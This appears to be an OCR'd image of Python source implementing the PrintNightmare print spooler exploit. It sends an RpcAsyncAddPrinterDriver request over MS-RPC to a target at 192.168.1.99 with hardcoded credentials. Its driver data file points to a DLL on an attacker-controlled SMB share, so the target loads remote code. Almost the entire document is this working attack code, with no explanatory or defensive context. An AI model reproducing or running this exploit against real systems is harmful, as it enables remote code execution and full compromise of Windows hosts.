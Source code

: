 ```python
class PDRIVER_INFO_2(NDRPOINTER):
    referent = (
        ('Data', DRIVER_INFO_2),
    )
   
class DRIVER_INFO_UNION(NDRUNION):
    commonHdr = (
        ('tag', ULONG),
    )
    union = {
        2 : ('Level2', PDRIVER_INFO_2),
    }

class DRIVER_CONTAINER(NDRSTRUCT):
    structure =  (
        ('Level', DWORD),
        ('DriverInfo', DRIVER_INFO_UNION),
    )

class RpcAsyncAddPrinterDriver(NDRCALL):
    opnum = 39
    structure = (
       ('pName', LPWSTR),
       ('pDriverContainer', DRIVER_CONTAINER),
       ('dwFileCopyFlags', DWORD),
    )

class RpcAsyncAddPrinterDriverResponse(NDRCALL):
    structure = (
       ('ErrorCode', ULONG),
    )

pDriverContainer = DRIVER_CONTAINER()
pDriverContainer['Level'] = 2
pDriverContainer['DriverInfo']['tag'] = 2
pDriverContainer['DriverInfo']['Level2']['cVersion']     = 3
pDriverContainer['DriverInfo']['Level2']['pName']        = "1234\x00"
pDriverContainer['DriverInfo']['Level2']['pEnvironment'] = "Windows x64\x00"
pDriverContainer['DriverInfo']['Level2']['pDriverPath']  = "C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_83aa9aebf5dffc96\\Amd64\\UNIDRV.DLL\x00"
pDriverContainer['DriverInfo']['Level2']['pDataFile']    = "\\??\\UNC\\192.168.1.215\\smb\\addCube.dll\x00"
pDriverContainer['DriverInfo']['Level2']['pConfigFile']  = "C:\\Windows\\System32\\winhttp.dll\x00"
dwFileCopyFlags = APD_COPY_ALL_FILES | 0x10 | 0x8000
pName = NULL

request = RpcAsyncAddPrinterDriver()
request['pName'] = pName
request['pDriverContainer'] = pDriverContainer
request['dwFileCopyFlags'] = dwFileCopyFlags

stringbinding = epm.hept_map("192.168.1.99", MSRPC_UUID_PAR, protocol='ncacn_ip_tcp')
rpctransport = DCERPCTransportFactory(stringbinding)
rpctransport.set_credentials("admin", "Summer2018", "", "", "")
dce = rpctransport.get_dce_rpc()
dce.set_auth_level(rpcrt.RPC_C_AUTHN_LEVEL_PKT_PRIVACY)
dce.connect()
dce.bind(MSRPC_UUID_PAR)

request.dump()
resp = dce.request(request, MSRPC_UUID_WINSPOOL)
resp.dump()
```